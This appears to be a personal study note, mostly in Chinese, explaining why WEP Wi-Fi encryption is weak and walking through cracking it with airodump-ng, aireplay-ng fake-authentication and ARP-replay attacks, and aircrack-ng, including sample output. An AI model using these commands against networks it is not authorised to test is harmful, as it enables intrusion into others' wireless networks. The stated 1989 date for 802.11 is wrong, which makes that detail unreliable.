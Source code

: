 # WEP Cracking

### WEP Encryption:

> 可稱: 有線等效加密 (Wired Equivalent Privacy) 或稱 無線加密協議 (Wireless Encryption Protocol)
>
> WEP was included in the original IEEE 802.11 specification adopted in 1989.
>
> It uses the **[RC4](https://paginas.fe.up.pt/~ei10109/ca/rc4.html)** stream cipher for both authentication and encryption.
>

**參考資料: 無線網路加密標準簡介  [iThom](https://www.ithome.com.tw/tech/96292)**

> RC4加密演算法的亂數種子，則是以初始向量（Initialization Vector，IV）和WEP的金鑰所構成，
>
> 但WEP的金鑰是固定不變，IV值則是一組僅有24位元的變動值，並且以明碼的方式傳輸。
>
> 每一次封包的加密，都是透過24位元的IV值與固定的40或104位元WEP金鑰去演算，形成一個64或128位元的RC4加密值，然後傳輸出去。
>
> 但是因為24位元的變動IV值，僅有1,600萬種加密的可能性，在比較繁忙的網路上，這些可能性很快就會被用完，
>
> 這使得有意破解的惡意使用者，只要收集到這數量的封包，就能透過反推算的方式，算出WEP的金鑰。

### 破解方式:

**--> 只要收集到足夠的封包，就能反向算出RC4的金鑰**


### // 1. 收集封包:

```
root@kali:~# airodump-ng --bssid XX:XX:XX:XX:XX:XX --channel 4 --write saveName wlan0
```

### // 2. 若網路不夠繁忙, 使用 airplay-ng 的內建方法增加目標網路生成 new IV 的速度:

**[方法一] Fake Authentication attack - 若網路不夠繁忙, 使用 airplay-ng --fakeauth 發送 request 給目標網路**

```
root@kali:~# aireplay-ng --fakeauth 0[0 是只發送一次, 1 是每一秒發送一次 request] -a xx:xx:xx:xx:xx:xx[目標BSSID] -h xx:xx:xx:xx:xx:xx[自己的BSSID] wlan0
07:02:55  Waiting for beacon frame (BSSID: xx:xx:xx:xx:xx:xx) on channel 4
07:02:55  Sending Authentication Request (Open System) [ACK]
07:02:55  Authentication successful
07:02:55  Sending Association Request [ACK]
07:02:55  Association successful :-) (AID: 1)
```

> 查詢自己的 BSSID:
>
>   `# ifconfig`  -->  找到 unspec 前六碼 (11-22-33-44-55-66)  -->  把 - (dash) 改成 : (冒號)
>

**[方法二] ARP request replay attack - Force the AP to generate new IV**

```
root@kali:~# aireplay-ng --arpreplay -b xx:xx:xx:xx:xx:xx[目標BSSID] -h xx:xx:xx:xx:xx:xx[自己的BSSID] wlan0
07:29:45  Waiting for beacon frame (BSSID: xx:xx:xx:xx:xx:xx) on channel 4
Saving ARP requests in replay_arp-0124-072945.cap
You should also start airodump-ng to capture replies.
Read 18981 packets (got 0 ARP requests and 0 ACKs), sent 0 packets...(0 pps)
 (一直無法啟動攻擊...可能是我只有自己的手機 WAP2 網路可以測試...所以用這個方法可能無效?!)
```

### // 3. 破解密碼: (可以同步 ARP replay Attack 並同步破解...一旦收集到足夠封包, 程式就會自己停止!)

```
root@kali:~# aircrack-ng saveName-01.cap
```
